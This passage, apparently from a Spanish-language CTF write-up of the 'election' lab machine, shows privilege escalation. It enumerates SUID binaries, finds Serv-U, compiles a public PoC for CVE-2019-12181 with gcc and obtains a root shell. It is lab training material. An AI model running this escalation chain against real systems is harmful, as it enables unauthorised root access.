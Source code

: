 No nos deja hacer sudo -l y la versión de sudo no es vulnerable por lo que buscamos permisos SUID con find:

```bash
love@election:~/Desktop$ find / -perm -4000 2>/dev/null
/usr/bin/arping
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/sbin/pppd
/usr/local/Serv-U/Serv-U
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
/bin/fusermount
/bin/ping
/bin/umount
/bin/mount
/bin/su
/home/love
```

Observamos que aparece Serv-U, el cuál no suele aparecer en este tipo de búsquedas. BUscamos exploits por esta vía en nuestro navegador y nos reporta CVE-2019-12181.

Buscamos el exploit en <a href="https://github.com/mavlevin/CVE-2019-12181">Github</a> y creamos un archivo en /tmp con el eploit para compilarlo. Puesto que tiene gcc lo podemos compilar con:

> gcc exploit.c -o exploit

Lo ejecutamos y somos root.

```bash
love@election:/tmp$ gcc exploit.c -o exploit
love@election:/tmp$ ./exploit 
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
# whoami
root
```

```bash
# cd /root
# ls
root.txt
# cat root.txt
5238feef?????????????
```

Muchas gracias por leer este Writeup. Espero que te haya gustado mucho!
